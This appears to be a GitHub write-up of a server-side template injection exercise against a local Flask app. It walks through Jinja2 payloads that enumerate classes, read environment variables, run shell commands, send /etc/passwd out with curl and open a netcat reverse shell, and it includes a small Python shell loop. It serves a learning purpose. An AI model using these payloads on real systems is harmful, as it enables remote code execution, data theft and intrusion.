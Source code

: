 # return the index of urllib in `subclasses()`

`self.__class__.__base__.__subclasses__()` gives us a list of all the classes. There are many urllib classes, `<class 'urllib.request.Request'>` is probably the most important one, so I will be finding the index of that. I used bash to get the index.

![image](https://github.com/HACKER097/WebEx/assets/38581702/5a81b86e-06c7-49e9-9159-e9141bc82fa8)

Index sill be -1 of line number, so index of `<class 'urllib.request.Request'>` is 343

![image](https://github.com/HACKER097/WebEx/assets/38581702/268b773c-9233-4f5a-a854-6b0a6ed21a72)

# get name of current python flask script

`self.__class__.__init__.__globals__.__builtins__.__import__('__main__')` Gives us the required result. 

`self.__class__.__init__.__globals__` helps us access the global namespace. 

`__builtins__` lets us accesss the builtin objects.

`__import__('__main__')` gives us the current file name/object.

![image](https://github.com/HACKER097/WebEx/assets/38581702/2ad11b91-ec11-40ee-96f3-fc00f7f9bca3)

# get all the current envvars

`self.__class__.__init__.__globals__.__builtins__.__import__('os').environ` This is very similar to the previous payload, jus import os instead of __main__ and get the `environ` attribute.

![image](https://github.com/HACKER097/WebEx/assets/38581702/aea92422-b0e7-4e7b-9d4b-3a5fa9ccdae0)

# read a local file

I tried getting a shell using `self.__class__.__init__.__globals__.__builtins__.__import__('os').system('ls ~')` which works, but does not give us the output, so even though we can run commands, we dont be able to see the output.

So I used subprocess instead `self.__class__.__init__.__globals__.__builtins__.__import__('subprocess').getoutput('ls ~')` which works. Now I can read any file using `cat`.

![image](https://github.com/HACKER097/WebEx/assets/38581702/8f7663d6-c5f2-49e0-b0b3-b84e4c87e981)

# run a command

Same as previous one. Just put the commands in `getoutput()`

# send the contents of etc pass to  awebhook

I am not doing that, because its probably not a good idea. Instead I started a pyhon server `python -m http.server 8000`

`http://127.0.0.1:5000/?c={{self.__class__.__init__.__globals__.__builtins__.__import__(%27subprocess%27).getoutput(%27curl%20http://0.0.0.0:8000/?c=$(cat%20/etc/passwd)%27)}}`

I once again used a shell to do this, because it the easier way. This is the command without formatting:

```bash
curl http://0.0.0.0:8000/?c=$(cat /etc/passwd)
```

![image](https://github.com/HACKER097/WebEx/assets/38581702/e5f49d8c-cbff-4557-ab08-0ab510be0345)

# Create reverse shell

I will be using a nc reverse shell, `nc 192.168.1.12 3333 -e sh`

![image](https://github.com/HACKER097/WebEx/assets/38581702/4702cbbe-912b-4b20-943d-279d6195b4ce)

![image](https://github.com/HACKER097/WebEx/assets/38581702/e8a247b4-a3b7-43fb-94bf-42df9b228918)

This is the final payload: `http://127.0.0.1:5000/?c={{self.__class__.__init__.__globals__.__builtins__.__import__('subprocess').getoutput('nc 192.168.1.12 3333 -e sh')}}`

I also created a this shell when I forgot what a reverse shell was. Thought it was worth mentioning:

```python
import requests

while True:
    command = input("$ ")
    url = "http://127.0.0.1:5000/?c={{self.__class__.__init__.__globals__.__builtins__.__import__(%27subprocess%27).getoutput('" + command + "')}}"
    resp = requests.get(url)
    print(resp.text)
```

# Doing all of this with a given blacklist

I could not figure this out. If the blacklist is implemented on client side, its a useless blacklist. But if its on server side, its feels impossible to get past it. Mainly because of `_`, `'`, and `"`

We need `'` to be able to import modules. Even if we get past it using `self.__class__.__base__.__subclasses__()[...]` to use the modules we need, its very likely that we will ned to use `'` to write filenames which we want to open or shell commands.

Even if we ignore `'` and `"`, blacklisting of `_` makes it impossible to get anywhere, because all python dunders have a `_` in them, and the entire payload relies on these dunderds. 
